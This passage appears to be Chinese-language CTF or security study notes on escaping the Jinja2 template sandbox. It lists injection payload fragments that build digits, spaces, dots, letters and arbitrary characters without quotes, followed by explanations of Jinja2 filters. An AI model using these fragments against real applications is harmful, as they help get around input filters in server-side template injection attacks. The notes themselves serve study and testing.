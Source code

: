 #### 绕过数字、字符

沙箱逃逸中的`[ ]` 扣字符拼接、`chr` 等。

1. 数字 0：`{{ {}|int }}`、`{{ {}|length }}`
2. 数字 1：`{{ ({}|int)**({}|int) }}`
3. 数字 2：`dict(e='a',a=1)|join|count`
4. 理论上有了 1 之后就可以搞出所有其他数字，可以用 `+` 或者是 `-`+`|abs`
5. 空格：`{{ {}|center|last }}`、`{1:1}|xmlattr|first`
6. `<`：`{}|select|string|first`
7. `F>`：`{}|select|string|last`
8. 点：`{{ self|float|string|min }}` 或者 `c.__lt__|string|truncate(3)|first`
9. `a-z`：`{{ range.__doc__ + dict.__doc__}}`
10. `A-Z`：`{{ (range.__doc__ + dict.__doc__) | upper }}`

上面这种都比较常规，思路还是扣字符的思路，顶多是过滤器做了变化。

这里多说一下利用格式化字符串实现的任意字符构造（例如字符 `d`）：

1. 首先搞出 `%c`：`{{ {}|string|urlencode|first~(self|string)[16] }}`
2. 然后搞出 `d`：`{{ ({}|string|urlencode|first~(self|string)[16]) % 100 }}`

还不需要引号。

>`__lt__` 是Python中用于比较“小于”操作的特殊方法名。
>
>`<bound method Undefined._fail_with_undefined_error of Undefined>`：这个错误信息是由Jinja2模板引擎的Undefined对象引起的。当在模板中引用了一个未定义的变量或对象时，Jinja2会将其表示为Undefined对象，以便在模板渲染过程中进行处理。
>
>`truncate()` 过滤器用于截断字符串并添加省略号。它可以将一个较长的字符串截断为指定的长度，并在截断处添加省略号以表示字符串被截断了。
>
>`{{"Hello, World!"|truncate(6)}}` -> `Hel...`

>`xmlattr()` 是Jinja2中的一个过滤器，用于将字典中的键值对转换为XML属性字符串。
>
>```python
>person = {
>    'name': 'Alice',
>    'age': 30
>}
>```
>
>`<person {{ person|xmlattr }}>...</person>` 渲染后-> `<person name="Alice" age="30">...</person>`

>`self`：在Jinja2模板中，`self` 表示当前上下文中的对象。`self` 只在自定义过滤器和函数中可用，而在模板中不可用。在模板中，可以直接引用传递给模板的变量和上下文中的属性。

>`~` 是字符串拼接运算符。它用于连接两个字符串并生成一个新的字符串。
>